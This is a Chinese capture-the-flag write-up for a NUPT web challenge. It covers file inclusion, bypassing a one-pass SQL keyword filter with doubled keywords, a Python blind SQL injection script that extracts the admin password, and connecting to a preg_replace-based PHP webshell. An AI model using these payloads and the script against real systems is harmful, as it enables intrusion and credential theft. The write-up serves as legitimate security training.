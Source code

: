 ```yaml
---
title: "CG CTF Web 综合2 Writeup"
date: 2022-07-20T16:08:22+08:00
draft: false
tags: ['php','ctf','sqli']
categories: ['web']
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


题目很综合, 出的很好

看到答案后觉得当初如果往社工方面想的话, 会更简单...

<!--more-->

http://cms.nuptzj.cn/

![20220720161011](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720161011.png)

留言板

常规性的右键查看源代码

![20220720161031](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720161031.png)

一看就知道是文件包含

![20220720161056](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720161056.png)

根据 sm.txt 以及直接访问网站得到的相关信息, 下载了网站的 PHP 源码, 但 config.php 无法读取

![20220720161214](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720161214.png)

about.php

![20220720161238](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720161238.png)

有一个过滤, 提示是敏感目录, 有一个 `loginxlcteam` 关键词

直接访问试试

![20220720161326](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720161326.png)

后台登陆, 但源码肯定读不出来

很容易就可以猜出来管理员账户是 admin

但密码尝试了好几位都是长度不一致

![20220720161430](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720161430.png)

可能有点 bug

可以尝试爆破, 但这个先放一边, 我们接着看源码

tips 说了 xss 与题目无关, 所以我们看一下 antiinject.php

```
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<?php
function antiinject($content){
$keyword=array("select","union","and","from",' ',"'",";",'"',"char","or","count","master","name","pass","admin","+","-","order","=");
$info=strtolower($content);
for($i=0;$i<=count($keyword);$i++){
 $info=str_replace($keyword[$i], '',$info);
}
return $info;
}
?>
```

这里把关键字都过滤了, 而且过滤了 `' " + - =` 这些单个的字符和空格

可以看出来, 这里的"过滤"仅仅是过滤一次, 对于 `select` `union` 这种关键词可以以 `selselectect` `ununionion` 的形式进行绕过, 对于空格我们可以用 mysql 的行间注释 `/**/` 但对于单字符来说无法绕过

也就是说我们的注入语句中不可能出现 `' " =`

另外发现了 passencode.php

```
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<?php
function passencode($content){
//$pass=urlencode($content);
$array=str_split($content);
$pass="";
for($i=0;$i<count($array);$i++){
if($pass!=""){
$pass=$pass." ".(string)ord($array[$i]);
}else{
$pass=(string)ord($array[$i]);
}
}
return $pass;
}
?>
```

就是用 ASCII + 空格的形式编码管理员密码, 这个后面会用到, 现在先放一边

查看了好几个 SQL 操作的点, 基本都是下面这种

![20220720162010](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720162010.png)

首先这种都是字符型的, 而且使用了 `mysql_real_escape_string()` 进行转义

也就是说在没有数据库启用宽字节 (如 gbk) 的情况下, 我们根本没有办法进行注入

但是 `mysql_real_escape_string()` 的转义对于整数型的注入是没有用的, 因为 `?id=123` 这种形式的注入根本就不需要闭合引号

所以我们现在的目标就很明确了: 找到一个整数型的注入点

经过仔细查找后, 在 so.php 有一处注入点

![20220720162323](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720162323.png)

这里对 `User-Agent` 进行了验证, burp 直接改就行

![20220720162539](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720162539.png)

下面就是正常的手工注入流程

我第一次用的是盲注, 甚至还写了个小脚本....(有点绕弯子)

后来发现 union 其实也可以, 不过需要先让前面的内容报错 (因为正常的内容占位了, 会导致 union 后面的内容无法显示出来)

```
soid=1/**/ooorrderrder/**/by/**/4 // true
soid=1/**/ooorrderrder/**/by/**/5 // false
```

order by 绕过有个小技巧, 就是构造 `ooorrderrder`, 因为 `order` 含有 `or`, 会过滤两次, 在 `o` 和 `r` 的中间再插入一次 `or` 就能绕过去了

或者直接 union select 挨个挨个试

![20220720162946](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720162946.png)

顺便贴一下当时盲注写的脚本

```
#-*-coding:utf-8-*-

import requests
import binascii

def str_to_hexStr(string):
    str_bin = string.encode('utf-8')
    return binascii.hexlify(str_bin).decode('utf-8')


heads = {'User-Agent':'Xlcteam Browser'}

url = 'http://cms.nuptzj.cn/so.php'

dicts = '0123456789 qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM_{}!@#$%^&*()+=-?'

password=''

for i in range(1,35):
    for p in dicts:
        pp = str_to_hexStr(p)
        ppp = '0x'+pp
        payloads = '1/**/aandnd/**/if(mid((selselectect/**/userppassass/**/frfromom/**/adadminmin/**/where/**/usernnameame/**/like/**/0x61646d696e),'+str(i)+',1)/**/like/**/'+ppp+',1,0)'
        datas = {'soid':payloads}
        res = requests.post(url,data=datas,headers=heads)
        if res.text.find('0xfxxker')!=-1:
            password += p
            print(password)
            break
```

其实前面已经知道了是 ASCII + 空格的编码形式, dicts 不用写的那么多, `1234567890 ` 就够用了

![20220720163757](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720163757.png)

数据表结构前面的 sm.txt 已经给出来了

![20220720163028](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720163028.png)

密文是 `102 117 99 107 114 117 110 116 117`

根据前面的 passencode.php 可以知道是 ASCII 编码, 解码得到 `fuckruntu`


登录

![20220720163124](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720163124.png)

一句话木马在根目录 `xlcteam.php`

先用文件包含读一下内容

![20220720163228](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720163228.png)

回调函数

看到 `|.*|e` 想到了正则表达式, 网上搜了一下发现 PHP 可以通过 `preg_replace()` 来执行命令

`array_walk()` 的作用就不说了

`http://cms.nuptzj.cn/xlcteam.php?www=preg_replace`

菜刀连接, 密码 wtf (好像现在 webshell 管理工具已经换了....)

![20220720163522](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220720163522.png)